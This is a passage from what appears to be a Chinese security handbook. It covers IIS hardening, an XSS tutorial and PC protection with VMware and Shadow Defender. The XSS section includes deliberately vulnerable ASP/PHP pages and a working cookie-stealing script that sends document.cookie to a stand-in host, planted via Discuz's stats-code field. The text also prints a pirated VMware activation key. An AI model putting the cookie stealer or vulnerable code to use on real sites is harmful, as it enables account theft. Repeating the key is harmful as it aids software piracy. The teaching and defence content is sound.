我们点击免费激活后，再点击启动保护模块，就可以正常使用 IIS 保护盾了。功能我们一个个解释。首先来看目录设置，目录设置功能主要是防止入侵者写入大马小马等危险脚本。我们点击添加一个目录，例如我的网站保存在 `F:\WEB` 文件夹中，我们就在目录中填写网站保存目录。一般作为网站根目录的文件夹都是固定不变的，也无需变动文件名称等，我们可以按照下图来设置（图14）。

图14

我们再来看看 `images` 文件夹。`images` 文件夹是用来保存图片的，这个限制一定要严格：不是图片的一定不要给上传。如果是图片共享或存储头像之类的，要赋予创建、修改等权限，具体如下图所示（图15）。

图15

大家可以根据自己的需求来设置。我们来看下网络设置选项卡，我们点击之后可以添加允许访问的端口。如果站点和数据库分离的话就选择允许外网访问；如果不是站库分离的话，选择禁止外网访问即可。勾选上“禁止 UDP 数据发送（防 phpddos 马）”，设置如图所示（图16）。

图16

执行限制这个功能的限制程度一定要注意。如果一定要使用这个功能的话，要注意当前站点环境。如 PHP，就要在指定程序中填写 `php-cgi.exe` 执行文件的具体位置。我们在组件限制选项卡中可以设置禁用组件，比如 `WScript.Shell`、`Shell.Application` 等，如图17所示。

在注入防御选项卡中，我们可以设置过滤危险的注入字符，危险字符可以参照上一小节的文章，如图18所示。

3389 防御选项卡中，我们可以对 3389 登录进行限制。在这里我们勾选上“禁止高权限账号的创建”与“禁止 sethc.exe”就可以了。大家也可以根据自己的需要修改远程登录端口，如图19所示。

当这些设置完成之后我们就基本完工了，点击“应用设置”就可以启动我们的防护策略了。

#### 3.6 简单的跨站

##### XSS

XSS 又叫 CSS（Cross Site Script），中文为跨站脚本攻击。它指的是攻击者在 Web 页面中嵌套 HTML 恶意代码，当我们访问这个被嵌套恶意代码的页面时，该 HTML 代码就会被执行，从而达到攻击者的特殊目的。XSS 永远都是一个不朽的话题。到目前为止，XSS 攻击具有很大的威胁，这点是无可非议的。在 OWASP 2007 的峰会中，XSS 被列为年度 Web 安全威胁的第一位（图1）。

数据来源：2007 OWASP Top 10 的 MITRE 数据

##### XSS 初步了解

从前面的学习我们可以了解到，Web 应用程序的开发基础是由 HTTP 与 HTML 组成的，所以我们在学习 XSS 攻击的同时，必须具备一些 HTML 语言基础。下面我们来看下原理图，如图2所示。

##### XSS 攻击原理图

首先是攻击者获取被攻击页面的修改权，并对该页面嵌套恶意 XSS 攻击代码。当受害者浏览被攻击页面时，该页面的 XSS 代码就会被触发，并向攻击者发送敏感信息，这样攻击者就达到了目的。XSS 攻击可以分为两个种类：一种为存储式，第二种为反射式。

##### 存储型 XSS

存储型 XSS 也可以称为持久型 XSS 漏洞，这是比较常见的类型，危害性比较大。通俗地说，存储型 XSS 就是指程序本身存在漏洞。我来说一下存储型的流程：黑客将 XSS 脚本嵌套入一个 Web 页面中，使得所有访问该页面的访客都面临信息泄露的可能。简单来说，XSS 恶意代码长期存储在该页面中，除非人为清除。下面我自己编写个页面测试，我编写的 ASP 代码如下：

```asp
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>xss test</title>
<style>
body{
    font-size:10pt
}
</style>
</head>
<body>
<div style="position: absolute; left: 417px; top: 527px;"></div>

<div style="border-style:dotted; border-width:1px; POSITION:absolute; TOP:86px; width:306px; left:152px;">
留言列表 <hr color="#CDF583">
<%
set fs=server.createobject("scripting.filesystemobject")
file=server.mappath("Data.txt")
set txt=fs.opentextfile(file,1,true)
if not txt.atendofstream then
line=txt.ReadAll
response.write line & "<br>"
end if
%><%=MyData("data.txt")%>
<p>
<form method=POST action="">
<input name=nam1><input type=submit value="<P>留言:" name=nam5>
</form>
<%
Function MyData(MyFile)
Dim objFSO,objTS
Application.Lock
Set objFSO=Server.CreateObject("Scripting.FileSystemObject")
Set objTS=objFSO.OpenTextFile(Server.MapPath(MyFile),8,True)
MyData=Request("nam")
MyData0=Request("nam5")  ' 这里没有过滤

objTS.WriteLine(MyData0)
objTS.WriteLine(MyData)

objTS.Close
Application.Unlock
End Function
%></div>
</body>
</html>
```

ASP 页面如图3所示。

本程序有两个文件，分别为 `Data.txt` 与 `Index.asp`。其中 `Data.txt` 是用来保存留言内容的，`Index.asp` 是页面原型。说一下流程：打开 `index.asp` 首先读取 `Data.txt` 的内容，我们留言的时候就会将内容赋予在 `nam5` 中，然后没有经过任何处理就直接写入 `Data.txt`。因此，我们可以直接插入 XSS 的原型攻击代码，就可以达到攻击目的，代码如下：

```html
<script>alert('xss')</script>
```

我们将代码输入在留言框，点击留言，成功跨站了！如图4。

简单说，存储型 XSS 就是存储在页面里的，普通访客难以发现，所以这个危害远远大于反射型 XSS。

##### 反射型 XSS

什么是反射型 XSS 呢？反射型 XSS 这个有点鸡肋。反射型 XSS 也就是说：别人要点击你伪造的链接才会触发的 XSS。这个 XSS 代码不是在服务器页面上的。下面我来构造代码，主要分为两个页面，分别是 `index.html` 与 `xss.php`，具体代码如下：

```html
Index.html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<style type="text/css"><!-- body,td,th { color:#FFFFFF; } body { background-color:#000000; } --></style>
<title>Xss Test</title>
<body>
<form action="XSS.php" method="post">
<p align="center"><strong>Xss Test</strong></p>
<div align="center"><table width="270" border="0">
<tr>
<td width="106"><strong>Search</strong></td>
<td width="154"><input name="xss" type="text" id="xss" /></td>
</tr>
</table>
<table width="268" border="0">
<tr><td width="262"><div align="center"><input name="submit" type="submit" value="Fuck!" /></div></td></tr>
</table>
</div>
</form>
</body>
</html>

Xss.php
Search result <?php echo $_POST['xss']; ?>
```

工作原理其实很简单：`index.html` 主要功能就是把数据传输到 `xss.php` 并让其输出数据，这样就形成了反射型 XSS。我们输入跨站代码测试下：

```html
<script>alert(/xss/)</script>
```

点击“Fuck”后，它就会把数据传输到 `xss.php`，代码执行了，如图5、图6所示。

##### XSS 窃取 Cookie

当你浏览一个网页的时候后，发现在该网站注…账号密码无缘无故被盗，你是不是很纳闷呢？或许你会说这么强大的网站不可能被入侵啊？强大的安全防御并不代表绝对安全，有时候也会出现点小插曲，如存储型 XSS。如图1所示，可见 XSS 危害之大，本小节我就教大家窃取用户 Cookie。

我在本地搭建有两个站点，分别位于：

- http://127.0.0.1/1/
- http://127.0.0.1:81

其中 http://127.0.0.1/1/ 作为 Cookie 的接收站点，http://127.0.0.1:81 则作为目标站点，下面我们开始构造代码。

```php
// Cookie.php
<?php
$a = $_GET['cookie'];
$ref = $_SERVER['HTTP_REFERER'];
$data = $a . "||" . $ref . "\r\n";
$fp = fopen("cookie.txt", "a+");
fwrite($fp, $data);
fclose($fp);
?>
```

```javascript
// js.js
var ck = document.cookie;
var url = 'http://www.xx.com/cookie.php?cookie=' + ck;
var htmldaima = '<iframe src="' + url + '" style="display:none"></iframe>';
document.write(htmldaima);
```


我来说下基本流程，JS 的主要功能是截取 Cookie 传输到 cookie.php，然后再由 Cookie.php 接收 Cookie 并把 Cookie 保存在根目录的 cookie.txt 文件内。打个比方，把 JS 比作战士，则 Cookie.php 比作军火库，JS 就是在前方打仗的战士，JS 把对方歼灭之后夺取他的军火（Cookie），并运输回根据地（Cookie.php）存放，以便储备至下次使用。

在这里笔者就用 Discuz 论坛自带的“网站第三方统计代码”功能做测试，笔者进入后台，并把下方代码插入到统计编辑框内，并点击“提交”，如图2。


```html
<script src="http://127.0.0.1/1/ooxx.js"></script>
```

我们访问一下论坛首页，看是不是生成了一个 cookie 的文本呢？如图3所示。

其实对于 XSS 来说，并不是只获取 Cookie 那么简单，攻击者可以随意构造 JS 脚本，还可以访问本地磁盘然后获取其敏感信息发给攻击者，也可以将用户不知不觉导向有木马的恶意站点等。因为用户对于这些网站的连接总是很信任的，所以后果也更为严重。

大家看了上文之后，作为一个网络安全爱好者，我们比较关心的还是该如何防御 XSS。作为用户，我们需要做的是不要随便点击别人发送的链接，或者进入一些不良网站等，想必这个有很多人可以想到了。但是要想从根本上解决 XSS 的攻击，就要对 Web 应用程序源代码进行全面的审查，发现安全漏洞并进行相应的修补，这点是作为一个程序员应该做的。下面我来讲一下如何从根本上防御 XSS 吧！

##### 从 Web 应用程序防御 XSS

从 Web 应用程序防御是指在应用程序中修改相应的代码进行防御，简单的做法就是对攻击者所提交的恶意代码进行过滤再输出。我们编写一段 PHP 代码：

```php
<html>
<title>Anti Xss</title>
<body>
<form action="" method="GET">
  <input name="name" type="name">
  <input type="submit" value="submit">
</form>
</body>
</html>

<?php
$name = $_GET['name'];
echo("Hello $name");
?>
```

复制上面代码并保存为 antixss.php。从上面的代码中我们可以得出数据传输的流程。首先输入 “Hello”，加这个的目的是为了让读者看得明白点，这段代码的主要功能是输出字符串 “Hello” 和 URL 中 name 参数的值，界面如图1所示。


在讲解 XSS 防御前，我们需要了解到攻击者是通过什么途径提交攻击代码给我们，以及代码被执行的流程。我们在文本框中可以提交任意代码，因为在源码上面没有进行任何限制。比如我在文本框中提交 “Test” 并点击提交，它就会跳到 “http://127.0.0.1/1.php?name=test” 这个页面，其中 name 的值就是我们刚刚提交的 “Test”。假若这个时候攻击者提交恶意代码的话，是完全可以被执行的。从上面分析来看，我们可以把问题分为两个方面来进行防御。

##### 数据提交与数据输出

###### 1. 数据提交

数据提交简单来说，就是攻击者在页面提交了攻击代码，并对受害者进行攻击。比如，我们把刚刚编写的 PHP 页面当做一个搜索框，顾名思义就是给用户搜索的编辑框。但是用户可以输入随意的“关键字”进行搜索，则此任意“关键字”中可能包含恶意代码，从而导致攻击的发生。所以数据提交这块一定要严格执行，但是不能误杀合法搜索字符，下面让我来讲解下吧！

对搜索框提交长度限制。

我们可以使用百度搜索 100 个 0 看下，百度就会自动取前 76 个字节进行搜索，如图2。


76 个字节对于搜索框来说已经足够了，我们可以根据用户的需求来设置，但是要注意换算：

- 1字母 = 1字节
- 1汉字 = 2字节

我们在文本框中限制输入字符的长度，在文本框的 `<input>` 标签中添加一个 `maxlength` 属性。`<input>` 标签的 `maxlength` 属性用于指定输入框中允许输入的最大字符数，修改后代码如下：

```html
<input name="name" type="name" value="" maxlength="10">
```


在这里我限制输入的最大字符数是 10 个，效果如图3所示。

不过这样远远是不够的，我们点击提交的时候发现地址栏变成了：

`http://127.0.0.1/1.php?name=%D2%BB%B6%FE%C8%FD%CB%C4%CE%E5%C1%F9%C6%DF%B0%CB%BE%C5%CA%AE`

其中的 `%D2%BB%B6%FE%C8%FD%CB%C4%CE%E5%C1%F9%C6%DF%B0%CB%BE%C5%CA%AE` 就是 URL 编码。我们再提交一下 1234567890 纯数字进行搜索，可以发现这次地址变成了：

`http://127.0.0.1/1.php?name=1234567890`

假若我把它替换成我们的跨站代码会不会被成功执行呢？我们在浏览器中访问：

`http://127.0.0.1/1.php?name=<script>alert(/XSS/)</script>`

代码成功被执行了。（图4）


###### 2. 输出替换法

过滤函数的了解：

- `preg_replace`

输出过滤就是对攻击者所提交的代码进行过滤。我们首先从基本代码开始，一般的攻击者都会使用 `<script>` 这个标签进行探路，那么我们首先得把这个标签给过滤掉。在过滤之前我们要了解一下 PHP 的替换函数 `preg_replace` 的用法，`preg_replace` 的语法为：

```php
mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit] )
```

参数说明（图5）：

| 参数 | 说明 |
|---|---|
| pattern | 正则表达式 |
| replacement | 替换的内容 |
| subject | 需要匹配替换的对象 |
| limit | 可选，指定替换次数，-1 表示不限制 |

下面我来演示一下吧，首先按照刚刚的语法编写一句代码：

```php
$name = preg_replace("@<script(.*?)</script>@is", "", $name);
```

这个代码的功能是将 `<script>` 标签所包含的内容替换成空，从而达到过滤的目的。但是这个语句就可以过滤全部的跨站语句了吗？显然靠一句代码是不行的，攻击代码是可以变形的。我们再来换一个测试代码：

```html
<iframe src="http://www.baidu.com" width="20%" height="50%">
```

还可以正常嵌入到页面当中，如图6所示。我们再编写一个正则表达式将这句代码替换掉，代码如下：

```php
$name = preg_replace("@<iframe(.*?)</iframe>@is", "", $str);
```

我们按照刚刚的做法，把这句代码添加到：

```php
<?php
...
?>
```


图6

当中，如图7所示。

成功把 `<iframe>` 标签替换为空。

###### ② htmlspecialchars()

`htmlspecialchars()` 函数的作用是把一些预定义的字符转换为 HTML 实体，所预定义的字符为：

- `&`（和号）成为 `&amp;`
- `"`（双引号）成为 `&quot;`
- `'`（单引号）成为 `&#039;`
- `<`（小于）成为 `&lt;`
- `>`（大于）成为 `&gt;`


图7

语法：`htmlspecialchars(string, quote_style, character_set)`（图8）

下面我直接编写个代码来演示一下吧，代码如下：

```php
<?php
$test = '<A HREF="http://www.baidu.com/">Baidu Inc</A>'; // 把单引号中的数据绑定到 $test
echo htmlentities($test); // 通过 htmlentities() 处理后输出
?>
```

运行后如图9所示。

我们来查看下它的源代码，如图10所示，可以看到它把 `<A HREF="http://www.baidu.com">Baidu Inc</A>` 通过 `htmlentities()` 处理过后，输出为 `&lt;A HREF=&quot;http://www.baidu.com&quot;&gt;Baidu Inc&lt;/A&gt;`。（图10）

| 参数 | 说明 |
|---|---|
| string | 必需，规定要转换的字符串 |
| quoteset | 可选，规定如何处理引号（ENT_COMPAT / ENT_QUOTES / ENT_NOQUOTES） |
| character-set | 可选，规定字符集（如 ISO-8859-1、UTF-8、GB2312 等） |


图9

## Asp XSS 防御

对于 ASP 的 XSS 防御也和 PHP 的方法差不多，都是替换或者通过过滤的方式来输出，从而防止 XSS 的发生。下面我们来编写一段代码：

```asp
<title>Anti Xss</title>
<form id="form1" name="form1" method="post" action="antixss.asp">
  <label>
    <input type="text" name="news" id="news"/>
    <input type="submit" name="a" id="a" value="fuck"/>
  </label>
</form>
<%
news = request.form("news")
if news <> "" then
  response.write(news) ' 直接输出 news 的数值
end if
%>
```


图10

保存为 antixss.asp。这段代码对用户所提交的内容没有经过任何过滤就直接输出。我们演示下 ASP XSS 的防御函数使用。

###### Replace() 函数

`Replace()` 函数的功能是将指定数目的某个字符串替换为另一个自定义字符串，与 PHP 中的 `preg_replace` 类同，语法为：

```asp
Replace(expression, find, replacewith[, start[, count[, compare]]])
```

我们举个简单的例子：

```asp
response.write Replace("一二三四五六七","五六","56")
```

以上代码输出的结果是“一二三四56七”，整句代码的意思就是在原有数据“一二三四五六七”中查找“五六”并将其替换为“56”。

通过这句代码我们可以按瓜画瓢把替换非法字符的语句写出来，同样地将非法字符转换成 HTML 字符实体进行输出。结合我们刚刚的代码编写：

```asp
<%
function anti(str)
  anti = Replace(Replace(Replace(Replace(str,"<","&lt;"),">","&gt;"),chr(13),"<br>")," ","&nbsp;")
  anti = Replace(Replace(Replace(Replace(anti,"[sayyes]","<div align=center>"),"[b]","<b>"),"[red]","<font color=CC0000>"),"[big]","<font size=7>")
  anti = Replace(Replace(Replace(Replace(anti,"[/sayyes]","</img></div>"),"[/b]","</b>"),"[/red]","</font>"),"[/big]","</font>")
end function
%>
```

把它保存为 function.asp，并在 antixss.asp 中使用 `#include` 指令引用：

```asp
<!--#include file="function.asp"-->
```

将上面的代码贴在 antixss.asp 头部，如图11所示。


在引用的时候需要注意，如果 "function.asp" 文件位于虚拟目录 /function 中，下面这行代码会插入文件 "antixss.asp" 中的内容：

```asp
<!--#include file="/function/function.asp"-->
```

### 第四章 打造电脑的安全防线

人们常说网络安全攻防，前几章介绍的都是攻的东西，这章来看点防的东西。

前一阵子给人修了一次电脑，问题是中毒了导致 svchost.exe 出错，不管点错误提示框的“确定”还是“取消”按钮后系统都进入假死状态，手动杀了3个病毒后问题没有得到根本解决，最后只能给他重装了系统，感慨现在的病毒还真是猖獗啊。

问大家一个问题：你们的电脑中过毒吗？反正我的电脑中过。俗话说常在江湖飘哪能不挨刀。作为一个网络安全技术爱好者，平时难免接触黑客工具、木马病毒什么的，还经常访问一些可能被挂马的网站，时间久了，机子难免会中毒。

面对越来越严重的电脑安全风险我们就束手无策吗？当然不是，虽然没有绝对的安全，但我们却可以通过一些安全措施大大减小中招的可能性以及中招后的损失。今天我就介绍一些加强电脑安全的方法，让大家打造自己电脑的安全防线。

我的机子最近一次中毒是在2010年8月，好在我提前做好了防范，没有造成什么大的危害，嘿嘿。你千万不要以为我的机子装了什么强力的杀毒软件，为什么呢？只装杀毒软件就能保障电脑的安全？如果是普通电脑用户这样认为还情有可原，对于一个安全技术爱好者来说也这样认为就说不过去了。即使很多刚入门的安全爱好者都已经掌握了免杀技术，可以轻松打造杀毒软件不查杀的病毒或木马。哪一个种马者或挂马者在把自己的病毒或木马挂出来前不是经过杀毒软件的检测，不免杀会挂出来吗？现在病毒或木马流行过所有杀软的，最次也是过几大主流杀软的。

本小菜认为保障自己电脑系统的安全是个系统工程，有很多事情要做，今天我就结合自己为了保障我的电脑系统的安全所做的措施来给大家介绍一些打造电脑安全防线的方法。考虑到绝大多数朋友们用的都是 Windows 操作系统，再加上我对 Linux、Unix 平台下的安全一窍不通，今天只给大家介绍 Windows 平台下的一些加强电脑安全的方法。

#### 4.1 加强电脑系统安全的重要性和紧迫性

首先你要明确一点，只要你的电脑开机后就是不安全的，比如病毒可以通过移动存储设备感染你的电脑，如果你的电脑还上网，就更危险了。我这不是吓唬大家，是想提醒你要重视电脑系统的安全，要时刻注意电脑的安全。

在过去的2011年，网络安全威胁形势进一步加剧，安全形势并没有好转。黑客集团 Anonymous 有愈发猖獗之势，回顾2011，攻击事件层出不穷，索尼迄今为止遭遇到的规模最大的黑客攻击；RSA 被网络钓鱼；美国花旗银行被黑客侵入，21万北美地区银行卡用户的姓名、账户、电子邮箱等信息或遭泄露；Facebook 被黑，暴力色情图片泛滥，2011 的网络安全事件，你都记得吗？

- 1. 谷歌 Android 市场出现恶意软件

从2011年三月初，Android 出现一系列的恶意应用软件，这些应用软件可窃取用户数据和未经手机主人确认许可下“拨出”电话或发昂贵的短信。由于该问题在技术上没有找到好的解决办法，3月4日谷歌 Android 官方应用商店不得不宣布将56款包含木马的手机应用下架。虽然谷歌已经从 Android 市场删除了有问题的应用软件，但公司“未对任何已经被下载的恶意软件采取行动”。用户实际上是希望谷歌能远程禁用这些恶意应用软件。安全专家发出警告，很多 Android 智能手机用户下载了可窃取数据或发送收费短信的恶意软件。随后，谷歌 Android 官方应用商店宣布将56款包含木马的手机应用移除。

- 2. 索尼被黑，黑客借网络入侵炫耀

自从去年4月 PlayStation 网络入侵事件导致1亿多个用户账户曝光以来，索尼共遭遇到大大小小的黑客攻击10余次。索尼影视（SonyPictures）、索尼欧洲（SonyEurope）、索尼希腊 BMG 网站（SonyBMGGreece）、索尼泰国（SonyThailand）、索尼日本音乐（SonyMusicJapan）、索尼爱立信加拿大（SonyEricssonCanada）等等，无一不成为黑客攻击的目标。最初发生的 PlayStation 网络入侵事件是索尼迄今为止遭遇到的规模最大的黑客攻击。专家认为，索尼之所以遭遇网络攻击问题，一方面是因为索尼的系统缺乏稳定的安全性，另一方面是因为新崛起的黑客群体更乐意出风头，炫耀他们入侵公司防御系统的能力，至于惩罚索尼倒还在其次。“索尼需要时间来调整其安全方案。”WhiteHatSecurity 公司的首席技术官杰里米·格罗斯曼（Jeremiah Grossman）说，“作为一个组织，索尼应该将此危机看做是一个机会。从现在起一年或一年以上，他们可能成为整个行业处理安全问题的榜样。”尽管随着其他网络攻击事件见诸报端，攻击索尼的新颖性可能会逐渐降低，但是索尼显然必须提高其安全措施，否则它还会遭遇更多的攻击，丧失更多的用户和金钱，并可能导致政府的干预。

- 3. RSA 公布被攻击内幕：钓鱼邮件惹祸

EMC 2011年三月中旬宣布，旗下安全部门 RSA 遭遇黑客攻击。EMC 报告称，RSA 被一种业内称之为高级持续性威胁（advanced persistent threat）的复杂网络攻击，这是一种“极其复杂”的攻击，会导致一些秘密信息从 RSA 的 SecurID 双因素认证（two-factor authentication）产品中被提取出来。RSA 客户包括一些大军事机构、政府、各种银行及医疗和医保设备。瑞纳称，在两天的时间内，公司一部分普通员工收到了电子邮件，这些邮件带有一个名为“2011年招聘计划”的 Excel 表格附件。一些员工打开了附件，并在表格空白处填写了内容。而该表格包含一个“零日漏洞”，主要是利用了 Adobe Flash 的漏洞，通过该漏洞黑客可以在目标计算机上安装任何程序。黑客选择安装的是“PoisonIvyRAT”，这是一个远程控制程序，用某个地方的计算机控制另一个地方的另一台计算机。通过远程访问目标计算机，黑客获得了 RSA 企业网络的进一步访问权，这就好比是带着面罩冒充 RSA 员工在公司内部搜索万能密钥。最初，黑客利用被入侵的低级别账号来收集登录信息，其中包括用户名、密码和域名信息等。之后黑客又将目标瞄向拥有更多访问权的高级账号，一旦成功，他们就从 RSA 网络系统中盗取任何需要的信息，之后打包并通过 FTP 下载。

- 4. IMF 数据库遭“黑大战”攻击

国际货币基金组织（IMF）连遭打击。继前总裁多米尼克·斯特劳斯-卡恩因强奸罪指控锒铛入狱之后，IMF 又爆出内部网络系统遭黑客袭击。英国《每日电报》称，这是一起“经过精心策划的严重攻击”，作为目前国际社会应对金融危机努力中的领导者，IMF 掌握着关于各国财政情况的绝密信息，以及各国领导人就国际救市计划进行的秘密协商的有关材料，一旦这些内容泄漏，不仅将对世界经济复苏造成严重的负面影响，更有可能引发一些国家的政治动荡。美国《纽约时报》消息称，此次事件可能只是黑客在试验被入侵系统的性能。另一方面，也有人认为国际货币基金组织此次遭袭是一起“网络钓鱼”事件：该组织的某位工作人员可能在不知情的情况下误点了某个不安全的链接，或者运行了某个使黑客得以入侵的软件。大多数被黑客攻击的组织或机构都不愿意透露过多的信息，因为他们担心这样做只会带来更多的入侵。

- 5. Facebook 被黑，暴力色情图片泛滥

2011年11月15日消息，社交网络 Facebook 已遭到了黑客攻击，部分用户抱怨在其个人资料页面中已目…除了大量色情和暴力图片。有人认为，这是黑客组织 Anonymous 所为。据悉，Facebook 用户已遭遇到了大量的色情、暴力、自残和兽奸图片。这个问题开始于两三天前，现在已有愈演愈烈之势。该社交网络的有些用户抱怨称，一些暴力或色情的图片在未经他们许可的情况下就出现在了他们的新闻动态信息中；还有些用户则被告知，他们的 Facebook 好友正在发送点击链接或视频的请求。这类似于我们以前在 Facebook 上见过的那类垃圾信息。不同的是，它来得要迅猛得多，似乎是提前计划好的。有媒体称，这些垃圾信息中的链接并不是要将用户带到别的什么地方，而是为了“侵入用户的账户，并向该用户的所有好友发送类似的垃圾信息”。在 Twitter 上搜索“Facebook 色情”可以发现，这两个社交网络的用户对此发出了很多抱怨之声。有些用户抱怨色情、暴力图片泛滥，有些用户则抱怨没有看到这些内容。

## 6. CSDN密码泄漏，超1亿用户密码被泄

堪称中国互联网史上最大泄密事件的影响还在不断扩大。继 12 月 21 日上午有黑客在网上公开 CSDN 网站的用户数据库，导致 600 余万个注册邮箱账号和与之对应的明文密码（即用户密码什么样，网站数据库就存成什么样）泄露之后，22 日，网上曝出人人网、天涯、开心网、多玩、世纪佳缘、珍爱网、美空网、百合网、178、7K7K 等知名网站的用户名密码遭网上公开泄露。最新监测数据发现，目前网上公开暴露的网络账户密码超过 1 亿个。“泄密门”的爆出将原来潜伏在水面之下的互联网信息安全问题变成公众关注的焦点。

以前我曾经天真地以为只有一些小网站才可能不安全，很多大网站都是安全的，所以我只在浏览一些小网站时才用虚拟机里的系统去浏览，浏览一些大的、比较可靠的网站时用真实的系统去浏览。后来连 Facebook、Baidu、索尼这样的世界大网站都被黑过，我还敢那么相信大网站的安全吗？我有浏览任何网站都在虚拟机中进行的冲动了——

作为一个安全技术爱好者，你的电脑面临更大的安全威胁。作为一个安全爱好者，使用各种安全工具和黑客工具是必然的，但这些程序有可能被人动了手脚，存在后门或捆绑了病毒或木马；为了测试一套网络程序的漏洞，有时候你可能要去网上找 shell，而你找 shell 的网站很可能已经被别人入侵并在网页中挂了马，而且挂马利用的漏洞还是 0day，那么恭喜你，你中招了。再说，作为一个安全爱好者，有抓别人的电脑做肉鸡的能力，如果不做好自己电脑的安全防范，做了别人的肉鸡，实在不是一件光彩的事情。因此我们更要懂得加强电脑系统安全的重要性和紧迫性。

有了加强电脑系统安全的意识，下面就是具体怎么做了。

#### 4.2 安装安全的操作系统

操作系统在计算机系统中占据着一个非常重要的地位，它不仅是硬件与所有其他软件之间的接口，而且任何数字电子计算机都必须在其硬件平台上加载相应的操作系统之后，才能构成一个可以协调运转的计算机系统。只有在操作系统的指挥控制下，各种计算机资源才能被分配给用户使用。也只有在操作系统的支撑下，其他系统软件如各类编译系统、程序库和运行支持环境才得以取得运行条件。没有操作系统，任何应用软件都无法运行。

我们平常进行的所有操作都是在操作系统中进行的。既然操作系统这么重要，要增加电脑系统的安全性首先要注意操作系统的安全性。如果条件允许，最好安装正版原装的操作系统，不要安装修改版的操作系统，有些修改版的操作系统被动了手脚，轻者浏览器主页给你劫持到一个网站，严重的甚至留了系统后门或木马病毒。如果你的电脑买的时候预装了正版操作系统，最好用预装的操作系统。如果你的电脑买的时候没带操作系统，要用盗版的系统，在选择盗版操作系统的时候也要注意，要选择口碑比较好的、安全比较有保证的，比如以前深度论坛和雨林木风出的系统都非常不错，可惜已经很久不更新了。千万不要用乱七八糟的系统。另外，在网上发布的系统时建议用手动安装版，不要用 ghost 版的。

如果你的电脑出厂时预装了 Windows 家庭基本版操作系统，建议换掉，因为 Windows 家庭基本版操作系统对有些高级功能进行了阉割，比如 Windows XP Home Edition 就不能用组策略，也不能对文件进行权限设置。当然，你能用旗舰版的操作系统最好了，可是旗舰版的价格高得令我等穷小菜害怕，比如微软最新的 Windows 7 旗舰版要卖 2999 大洋！不过有人发布了通过刷 BIOS 用旗舰版 Windows 7 的方法，X 档案以前的文章也曾介绍过，有兴趣的可以翻看下。

## 4.3 VMware+Shadow Defender

有了安全的操作系统，下面该考虑用什么大的策略或方法来保护系统的安全了。我选择的是 VMware + Shadow Defender，即用的是虚拟机加影子系统。虚拟机是在一台电脑上将硬盘和内存的一部分拿出来虚拟出若干台机器，每台机器可以运行单独的操作系统而互不干扰，这些“新”机器各自拥有自己独立的 CMOS、硬盘和操作系统，你可以像使用普通机器一样对它们进行分区、格式化、安装系统和应用软件等操作，还可以将这几个操作系统连成一个网络。在虚拟系统崩溃之后可直接删除，不影响本机系统；同样本机系统崩溃后也不影响虚拟系统，可以下次重装后再加入以前做的虚拟系统。虚拟机软件不需要重新开机，就能在同一台电脑使用好几个 OS，不但方便，而且安全。虚拟机在学习技术方面能够发挥很大的作用。VMware 是目前虚拟机软件中最著名的一个，VMware 使你可以在一台机器上同时运行两个或更多 Windows、DOS、Linux 系统。与“多启动”系统相比，VMware 采用了完全不同的概念。多启动系统在一个时刻只能运行一个系统，在系统切换时需要重新启动机器。VMware 是真正“同时”运行，多个操作系统在主系统的平台上，就像标准 Windows 应用程序那样切换。当然，虚拟机软件有很多，除了 VMware 外还有 Virtual PC、VirtualBox 等，因为我用习惯了 VMware，所以就用 VMware 为例来给大家介绍，具体用哪款虚拟机软件看自己的喜好。

我选择 VMware 来加强系统的安全，正是看中了它“虚拟系统崩溃之后可直接删除不影响本机系统，同样本机系统崩溃后也不影响虚拟系统，可以下次重装后再加入以前做的虚拟系统”的特点。既然系统崩溃都不怕，防病毒更不在话下了，大不了虚拟机里的系统中毒后我直接删除那个中毒的虚拟系统，再克隆一个干净的系统过来，5 分钟不到，我又可以用虚拟机中的系统了。

Shadow Defender 是一款国外的系统保护程序，它是程序小巧却功能强大的还原、保护程序，支持多分区，支持转储，支持排除，能防机器狗。软件有着漂亮的界面和直观的设置选项，特别是在转储和排除方面胜人一等。进入影子模式后的分区上的所有更改，在退出影子模式后都会被撤消，即返回到没进入影子模式时的状态。有了 Shadow Defender，我们就再也不用怕中病毒、中木马、中网马了，建议在用黑客工具或在浏览可能有安全风险的网站前启动所有分区的影子模式。VMware 让我们的真实系统不中毒，Shadow Defender 让我们 VMware 中的虚拟系统也几乎百毒不侵。

下面首先来安装 VMware。VMware 有很多产品，我们用的是它的桌面产品中的 VMware Workstation，目前 VMware Workstation 的最新版本为 8.0.2-591240。由于我们的操作系统用的是 Windows，所以就用 VMware Workstation 8.0.2-591240 for Windows。官方下载地址为 https://my.vmware.com/cn/group/vmware/details?downloadGroup=WKST-802-WIN&productId=... ，需要注册为官方的用户后才能用官方的下载地址进行下载。今天我们不用最新版本，用 VMware-workstation-6.0.4-93057 来给大家做演示，安装文件也是从官方下载的，软件的 md5sum 为 f50a05831e94c19d98f363c752fca5f9，如图1。


图1

VMware 虽然是收费软件，但软件的注册码早就满天飞了，我连注册机也懒得用，直接在网上搜索了一个软件的注册码。在选择 VMware Workstation 的安装文件时强烈建议用官方原版的，用着放心，最好不要用汉化版、精简版、绿色免安装版的：一是安装文件可能不干净，二是精简版和绿色免安装版的在使用的时候可能出现莫名其妙的问题。软件虽然是英文的，但常用的功能就那么几个，硬记也记住了，根本没必要用汉化版的。


VMware Workstation 是一款应用软件，需要运行在一个操作系统中。安装 VMware Workstation 的系统叫 HOST，也叫主系统或宿主机，在虚拟机中运行的系统叫 GUEST，即子系统或客户系统。我宿主机中用的操作系统是 Microsoft Windows 7 Ultimate，也就是 Windows 7 旗舰版。双击 VMware Workstation 的安装文件 VMware-workstation-6.0.4-93057.exe 进行安装，一路 Next 就可以完成安装了。由于安装文件比较大，安装过程可能会比较长，请耐心等待。由于我系统中已经安装过 VMware Workstation 了，不能给出安装过程的截图了，请谅解。软件安装完成后会要求重新启动系统，重新启动后输入软件激活码，VMware Workstation 就安装完成了。我找到的 VMware-workstation-6.0.4 的一个激活码为 8RJYX-0PD65-08M4U-4P9QQ，大家可以直接利用。双击桌面上的 VMware Workstation 快捷方式启动 VMware Workstation，软件启动后的界面如图2。


